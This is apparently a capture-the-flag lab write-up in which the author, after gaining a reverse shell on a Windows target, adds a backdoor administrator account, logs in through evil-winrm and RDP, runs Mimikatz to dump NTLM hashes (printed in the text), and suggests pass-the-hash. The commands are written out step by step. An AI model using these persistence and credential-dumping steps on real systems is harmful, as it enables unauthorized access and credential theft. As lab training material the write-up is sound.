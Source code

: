 
As we got the reverse shell with the highest permissions possible on a local machine which means we don't have need to escalate on this target but but but .....................

From the enumeration we did on this target we know that ports 3389 and 5985 are open. This means that (using an account with the correct privileges) we should be able to obtain either a GUI through RDP (port 3389) or a stable CLI shell using WinRM (port 5985).


So we have add a account with a username and password
```
net user sardarji-007 Password123 /add
```
![[Pasted image 20231230121342.png]]

```
net localgroup Administrators sardarji-007 /add
net localgroup "Remote Management Users" sardarji-007 /add
```
![[Pasted image 20231230121856.png]]

After this we have to use evil-winrm but i have already installed as i have used it earlier for some box
```
sudo gem install evil-winrm
```

```
evil-winrm -u sardarji-007 -p Password123 -i 10.200.101.150
```
![[Pasted image 20231230122319.png]]

```
whoami
whoami /groups
```
![[Pasted image 20231230122419.png]]

Now will try to login using RDP for clients
```
sudo apt install freerdp2-x11
```

RDP
```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123'
```

```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123' /dynamic-resolution
```
![[Pasted image 20231230124859.png]]

```
We have window's resources on our disposal 
```
![[Pasted image 20231230125736.png]]

```
xfreerdp /v:10.200.101.150 /u:'sardarji-007' /p:'Password123' /dynamic-resolution /drive:.,share
```
![[Pasted image 20231230130100.png]]

So we have successfully shared the folder and can use it otherwise we have to set-up a server  and have to work accordingly.

I was not able to use CMD so suggest to go with PowerShell
```
cd \\tsclient\share\mimikatz 
```
![[Pasted image 20231230131025.png]]

I don't know even this also not worked so i simply copied the Mimikatz folder into the desktop and good to go from here.
```
cd \\tsclient\share\mimikatz\x64
```
![[Pasted image 20231230132355.png]]

```
privilege::debug
```

```
token::elevate
```

```
User : Administrator
  Hash NTLM: 37db630168e5f82aafa8461e05c6bbd1

Supplemental Credentials:
* Primary:NTLM-Strong-NTOWF *
    Random Value : 68b1608793104cca229de9f1dfb6fbae
```

![[Pasted image 20231230152716.png]]

```
Admin
Thmoas
37db630168e5f82aafa8461e05c6bbd1
02d90eda8f6b6b06c32d5f207831101f
```

![[Pasted image 20231230153212.png]]

  
In the real world this would be enough to obtain stable access; however, in our current environment, the new account will be deleted if the network is reset.

For this reason you are encouraged to to use the evil-winrm built-in pass-the-hash technique using the Administrator hash we looted.


```
i<3ruby
```
